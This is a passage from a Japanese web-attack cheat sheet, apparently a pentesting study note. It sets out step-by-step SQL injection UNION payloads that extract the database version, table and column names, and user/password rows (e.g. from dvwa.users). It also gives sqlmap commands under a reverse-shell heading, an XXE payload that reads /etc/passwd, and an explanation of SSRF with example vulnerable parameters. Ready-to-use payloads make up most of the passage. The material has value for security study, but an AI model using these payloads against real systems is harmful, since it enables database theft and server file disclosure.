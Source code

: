 3.DBのバージョン取得
```
' union select version(),null,null,null #
```

4.DB名の取得
```
' UNION SELECT DATABASE(),NULL,NULL,NULL#

```

5.テーブルの取得
```
' union select table_name,null from information_schema.tables 
' union select table_name,null from information_schema.tables where table_schema = '<4で判明したDB名>'#
```
6.テーブルのカラムを参照
```
' union select table_name,column_name from information_schema.columns #
' union select table_name,column_name from information_schema.columns where table_schema = '<4で判明したDB名>'#
```
7.データの取得
```
' union select user,password from <DB名>.<テーブル名> #
' union select user,password from dvwa.users #
```


#### SQLインジェクション→reverse shell
SQLmap:
```
sqlmap -u http://192.168.56.1/vuln.php?id=1
sqlmap -u http：//192.168.0.1/vuln.php?id=1 --user-agent "Mozilla / 5.0（X11; Linux x86_64; rv：60.0 ）Gecko / 20100101 Firefox / 60.0 "
```
### ^NoSQLインジェクション
[]

### ^XXE(XML External Entitiy)
下のエクスプロイトでは、&xxe;と記述した箇所でfile:///etc/passwdを実行させている。
```
<?xml  version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE data [
<!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<bugreport>
	<title>test</title>
	<cwe>test</cwe>
	<cvss>test</cvss>
	<reward>&xxe;</reward>
</bugreport>
```

### SSRF(サーバサイドリクエストフォージェリ)
悪意のあるユーザーがWebサーバに攻撃者が選択したリソースに対して追加または編集されたHTTPリクエストを行わせるのを可能にする脆弱性。  
SSRFには2つのタイプがあり、1つ目はデータが攻撃者の画面に返される通常のSSRF。  
2つ目は、SSRFが発生するが攻撃者の画面に情報が返されたないBlind SSRF。  
SSRFの脆弱性が主に見つかる箇所としては、以下の4点が挙げられる。  
```
# アドレスバーのパラメータで完全なURLが使用されている場合
例) https//website.com/form?server=http://server.website.thm/store
# フォームの非表示フィールド
例) <input type="hidden" name="server" value="http://server.website.com/store">
# ホスト名などの部分的なURL
例) https://website.com/form?server=api
# URL内のパラメータでパスが使用されている場合
```
